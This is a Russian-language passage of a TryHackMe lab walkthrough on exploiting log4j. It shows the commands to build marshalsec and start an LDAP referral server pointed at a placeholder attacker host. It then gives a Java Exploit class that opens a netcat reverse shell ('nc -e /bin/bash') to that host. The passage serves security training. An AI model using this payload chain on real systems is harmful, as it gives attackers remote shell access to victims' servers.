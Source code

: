 Далее выполните команду для сборки marshalsec утилиты:

Сборка инструмента marshalsec с помощью maven
`attackbox@tryhackme:~/root/Rooms/solar/marshalsec$ mvn clean package -DskipTests`
Обратите внимание, что AttackBox для бесплатных пользователей не имеет интернета и не устанавливает пакеты maven. 
Либо подпишитесь, чтобы выполнить эту лабораторную работу через AttackBox, либо установите инструмент marshlsec локально. 
```commandline
Ответ не нужен
```
С помощью созданной утилиты marshalsec мы можем запустить сервер ссылок LDAP для прямых подключений к нашему 
вторичному HTTP-серверу (который мы подготовим буквально через минуту). Вы можете более чем свободно изучить 
использование, параметры и другие настройки, которые можно настроить с помощью этого инструмента, но для наглядности 
синтаксис для запуска сервера LDAP выглядит следующим образом:


Запустить LDAP-сервер
`attackbox@tryhackme:~/root/../marshalsec$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit"`
При необходимости измените IP-адрес атакующей машины. Обратите внимание, что мы предоставим прослушиваемый HTTP-порт 8000.

Каков результат выполнения этой команды? (Оставьте это окно терминала открытым, так как оно будет активно ожидать подключений)


```commandline
Listening on 0.0.0.0:1389
```
Теперь, когда наш сервер LDAP готов и ждет, мы можем открыть второе окно терминала для подготовки нашей 
окончательной полезной нагрузки и вторичного HTTP-сервера. 

В конечном счете, уязвимость log4j выполнит произвольный код, который вы создадите в языке программирования Java. 
Если вы не знакомы с Java, не волнуйтесь — мы будем использовать простой синтаксис, который просто «выходит за 
рамки» запуска системной команды. Фактически, мы получим обратное соединение оболочки, чтобы получить контроль над 
целевой машиной!

Создайте и переместите в новый каталог, где вы можете разместить эту полезную нагрузку. Сначала создайте свою 
полезную нагрузку в текстовом редакторе по вашему выбору (mousepad, nano, vim, Sublime Text, VS Code, что угодно), с 
определенным  именем Exploit.java:


Сохраните код эксплойта Java и измените его на свой IP-адрес.
```commandline
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
